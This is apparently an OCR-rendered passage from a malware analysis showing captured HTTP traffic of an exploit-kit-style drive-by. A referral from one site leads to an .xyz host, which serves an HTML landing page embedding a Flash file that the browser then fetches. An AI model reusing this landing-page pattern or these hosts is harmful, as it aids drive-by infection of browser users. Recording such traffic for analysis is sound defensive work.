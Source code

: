 ## HTTP communication

\label{http_request}

```html
GET /absorb/anJqeWtieHZhaw HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Referer: http://www.kiamotorsnigeria.com/
Accept-Language: en-GB
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: zodlp.aebeike.xyz
DNT: 1
Connection: Keep-Alive
```

```html
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 15 Jun 2016 12:58:19 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
Content-Encoding: gzip

210
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
                      "http://www.w3.org/TR/html4/loose.dtd">
<html>
<body>
<script>
</script>
<object height="741" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" name="qffppxkp"
        width="405" id="qffppxkp" 
		codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=10,1,52,0">
    <param name="movie" 
	       value="/address/1335107/balance-fountain-click-absurd-merry-sing-examine.swf"/>
    <param name="bgcolor" value="#fe04e0"/>
    <param name="allowScriptAccess" value="always"/>
    <embed play="true" align="middle" width="405"
	       pluginspage="http://www.macromedia.com/go/getflashplayer" quality="high"
		   type="application/x-shockwave-flash" 
		   src="/address/1335107/balance-fountain-click-absurd-merry-sing-examine.swf"
		   name="adpdcrrx" allowScriptAccess="sameDomain" height="741" id="adpdcrrx" 
		   loop="false"/>
</object>
</body>
</html>
```

```html
GET /address/1335107/balance-fountain-click-absurd-merry-sing-examine.swf HTTP/1.1
Accept: */*
Accept-Language: en-GB
Referer: http://zodlp.aebeike.xyz/absorb/anJqeWtieHZhaw
x-flash-version: 21,0,0,242
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: zodlp.aebeike.xyz
DNT: 1
Connection: Keep-Alive
```
